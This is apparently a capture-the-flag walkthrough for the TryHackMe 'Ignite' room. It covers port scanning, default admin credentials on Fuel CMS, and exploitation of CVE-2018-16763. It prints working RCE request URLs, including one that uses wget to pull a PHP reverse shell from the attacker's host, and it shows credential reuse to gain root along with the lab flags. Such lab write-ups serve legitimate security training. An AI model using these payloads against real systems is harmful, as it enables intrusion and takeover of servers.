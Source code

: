 ```yaml
---
layout: default
---
```


# Ignite CTF
### This is a walkthrough of the [Ignite CTF](https://tryhackme.com/room/ignite)
* * *
It is a classic room where you exploit a Linux box, running vulnerable CMS and owning the machine.
<br>OK lets begin!

I always like to export the ip address of the target to a env variable, because I don't need to type the whole address everytime.

>export ip=10.10.28.46

Ok lets start an Nmap scan
>$ nmap -sC -sV -oN nmap.txt $ip

```
# Nmap 7.80 scan initiated Wed Jun 24 12:30:40 2020 as: nmap -sC -sV -oN nmap.txt 10.10.28.46
Nmap scan report for 10.10.28.46
Host is up (0.076s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 24 12:30:54 2020 -- 1 IP address (1 host up) scanned in 13.52 seconds
```
We can see that only port 80/tcp is open ... <br>
If we open it in a web browser there is a default FuelCMS instance running,
lets check out the admin panel `/fuel`. It appears that it has the default admin:admin credentilas.
```
$ip/fuel
admin:admin

maybe could be solved by uploading reverse php shell via the cms control panel since we know the creds ...
```
I tried to upload a PHP reverse shell manually, via the admin panel, but failed.
I ran searchsploit against Fuel CMS and found out an interesting RCE (CVE 2018-16763) that could help me out to gain further access ...

```
Fuel CMS RCE < 1.4.1 (1.4 in our case)
CVE 2018-16763 

exploit(code='ls -la'):

$ip/fuel/pages/select/?filter='%2bpi(print(%24a%3d'system'))%2b%24a('ls -al')%2b'

credits: https://www.youtube.com/watch?v=wLWqkULvefU
```
Here i use the RCE to upload a reverse PHP shell, that I have hosted on my Kali box using SimpleHTTP server.

```
reverse shell upload and execute

http://10.10.28.46/fuel/pages/select/?filter='%2bpi(print(%24a%3d'system'))%2b%24a('wget 10.5.2.55:8000/reverse.php -O reverse.php')%2b'

10.10.28.46/reverse.php
```
Here I have found the User flag
```
User.txt
6470e394cbf6dab6a91682cc8585059b
```
I started enumerating, with linpeas, etc ...<br>
Couldn't find any privilage escalation vectors.
<br>I have spend a lot of time going around in circles. At this point I started trying out everything i could think of. <br>
I googled FuelCMS Database Configuration and found out [this article](https://www.codeigniter.com/user_guide/database/configuration.html) <br>
They were talking about the MySQL DB, and I assume the app needs to talk with the DB, to do so it need to get authenticated with the DB using some kind of credentials...
I have read that the configuration file is stored in app/config/database.php. <br>
At first i couldn't find it, so i ran a quick `find`.
```bash
$ find / -name database.php 2>/dev/null
/var/www/html/fuel/application/config/database.php
```
* * *
## A QUICK TIP
>If we take a look at the end of the `find` command i have used above, `2>/dev/null` is baiscally telling the shell to send [`Stderr` (Standart error)](https://www.computerhope.com/jargon/s/stderr.htm) to /dev/null.
> * 0:stdin
> * 1:stdout
> * 2:stderr
>
>That way when we search through the `/` directory there are many files that we can't open simply because we do not have the permissions to. <br>
>So we use `2>/dev/null` to NOT print the error messages we get. <br>
>We want to see only the relevant information and not a shell filled up with `find: ‘/root’: Permission denied`

* * *

### If we take a look at the default page of Fuel CMS, we can see that it is right in front of us, but yeah ...

<a href="pics/ignite/pic1.png" target="_blank"><img src="pics/ignite/pic1.png"></a>

I have found root creds in the file. Now lets check for credential reuse. And I am root, lets get the flag ...

```
'username' => 'root',
'password' => 'mememe',
```
```
Root.txt
b9bbcb33e11b80be759c4e844862482d
```

### You can find more notes on TryHackMe CTFs at my [GitHub](https://github.com/P4nd4233/tryHackMe_CTFs_Notes) .
